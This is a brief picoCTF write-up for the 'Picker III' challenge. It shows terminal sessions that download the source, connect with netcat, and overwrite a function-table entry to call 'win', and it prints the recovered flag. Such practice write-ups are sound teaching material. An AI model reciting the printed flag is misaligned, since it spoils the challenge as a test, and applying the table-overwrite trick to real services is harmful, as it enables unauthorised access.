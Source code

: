 ## Introducción.
Can you figure out how this program works to get the flag?Connect to the program with netcat:`$ nc saturn.picoctf.net 57005`The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/525/picker-III.py).

1.-Is there any way to modify the function table?
## Descripción
```

┌──(kali㉿kali)-[~/p3]
└─$ wget -4 https://artifacts.picoctf.net/c/525/picker-III.py
--2024-11-26 01:26:22--  https://artifacts.picoctf.net/c/525/picker-III.py
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 3.161.55.26, 3.161.55.100, 3.161.55.64, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|3.161.55.26|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4439 (4.3K) [application/octet-stream]
Saving to: ‘picker-III.py’

picker-III.py       100%[==================>]   4.33K  --.-KB/s    in 0s      

2024-11-26 01:26:22 (209 MB/s) - ‘picker-III.py’ saved [4439/4439]

                                                                               
┌──(kali㉿kali)-[~/p3]
└─$ nc saturn.picoctf.net 57005
==> 3
Please enter variable name to write: win
Please enter new value of variable: 
                                                                               
┌──(kali㉿kali)-[~/p3]
└─$ nc saturn.picoctf.net 57005
==> 3
Please enter variable name to write: getRandomNumber 
Please enter new value of variable: win
==> ?

This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:
  
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d 
==> ^C

```
![[Pasted image 20241126002755.png]]
## Solución 
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_a186f9ac}